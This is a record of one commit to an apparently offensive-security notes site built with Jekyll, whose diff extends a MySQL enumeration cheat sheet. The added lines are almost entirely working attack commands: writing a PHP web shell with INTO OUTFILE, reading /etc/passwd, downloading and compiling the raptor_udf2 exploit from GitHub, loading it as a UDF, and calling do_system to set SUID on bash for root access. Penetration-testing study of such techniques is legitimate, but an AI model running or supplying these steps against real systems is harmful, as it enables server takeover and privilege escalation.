

Before and after one commit to v0idravl/hakiki, a Jekyll site: the page built from recon/service_enumeration.md, in a window 1280 px wide and 1400 px high, scrolled down 8526 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files.

Commit message:
service: expand MySQL with UDF privilege escalation (MySQL running as root → OS RCE)
- Current user and privilege check queries
- secure_file_priv variable check before attempting file write
- MySQL UDF compilation and installation workflow
- do_system() UDF execution for SUID bash privesc

````diff
--- a/recon/service_enumeration.md
+++ b/recon/service_enumeration.md
@@ -395,11 +395,43 @@ use <db>;
 show tables;
 select * from <table>;
 
+-- Current user and permissions
+SELECT user();
+SELECT super_priv FROM mysql.user WHERE user = current_user();
+
 -- Read files (requires FILE privilege)
 SELECT LOAD_FILE('/etc/passwd');
 
--- Write web shell (requires secure_file_priv to be empty or allow path)
+-- Write web shell (requires FILE privilege, secure_file_priv='')
 SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/html/shell.php';
+
+-- Check secure_file_priv (empty string = no restriction)
+SHOW VARIABLES LIKE 'secure_file_priv';
+```
+
+**UDF privesc (MySQL running as root → OS command execution):**
+
+```bash
+# If MySQL runs as root and you have INSERT on mysql.* — compile UDF library
+# raptor_udf.c / lib_mysqludf_sys (pre-compiled available)
+
+# On LHOST:
+wget https://raw.githubusercontent.com/1N3/PrivEsc/master/mysql/raptor_udf2.c
+gcc -g -c raptor_udf2.c -fPIC
+gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
+```
+
+```sql
+-- In MySQL (as root):
+-- Find plugin dir
+SHOW VARIABLES LIKE 'plugin_dir';
+-- Drop UDF lib there (use SELECT INTO DUMPFILE if FILE priv)
+SELECT binary 0x... INTO DUMPFILE '/usr/lib/mysql/plugin/raptor_udf2.so';
+CREATE FUNCTION do_system RETURNS INTEGER SONAME 'raptor_udf2.so';
+
+-- RCE:
+SELECT do_system('chmod +s /bin/bash');
+-- Then on shell: /bin/bash -p → root
 ```
 
 ---
````
